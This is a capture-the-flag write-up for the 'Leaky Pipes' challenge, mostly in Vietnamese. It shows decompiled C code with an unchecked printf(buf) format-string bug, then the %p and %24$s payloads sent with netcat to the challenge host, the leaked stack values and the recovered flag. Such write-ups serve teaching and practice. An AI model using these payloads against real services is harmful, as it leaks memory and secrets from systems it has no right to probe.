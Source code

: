 # Leaky Pipes

## Analysis

Chương trình yêu cầu nhập đầu vào sau đó in ra
```
└─$ ./leaky_pipes
Tell me your secret so I can reveal mine ;) >> aaaaaaaa
Here's your secret.. I ain't telling mine :p
aaaaaaaa
```
Để ý thấy lỗi format string trong hàm vuln  
Có giá trị của flag trên vùng nhớ stack
```
void vuln(void) {
  char buf [128];
  undefined flag [68];
  
  readflag(flag,0x40);
  printf("Tell me your secret so I can reveal mine ;) >> ");
  __isoc99_scanf("%127s",buf);
  puts("Here\'s your secret.. I ain\'t telling mine :p");
                    /* format string */
  printf(buf);
  putchar(10);
  return;
}
```
## Solution
```
└─$ nc 34.125.199.248 1337
Tell me your secret so I can reveal mine ;) >> %p%p%p%p%p%p%p%p%p%p***%p%p%p%p%p%p%p%p%p%p***%p%p%p%p%p%p%p%p%p%p
Here's your secret.. I ain't telling mine :p
0xffffdcc00xffffdce00x80493740x702570250x702570250x702570250x702570250x702570250x252a2a2a0x25702570***
0x257025700x257025700x257025700x2a7025700x70252a2a0x702570250x702570250x702570250x702570250x8007025***
0xf7fe184e0x804837d0xf7ffd9900xffffdd440xf7ffdb500xf7fc94100x10x1(nil)0xf7fc9410
```
Thử leak data của địa chỉ 0xffffdd44 tương ứng với %24$s:
```
└─$ nc 34.125.199.248 1337
Tell me your secret so I can reveal mine ;) >> %24$s
Here's your secret.. I ain't telling mine :p
F{F0rm4t_5tr1ngs_l3ak4g3_l0l}
```
## Flag
```
OSCTF{F0rm4t_5tr1ngs_l3ak4g3_l0l}
```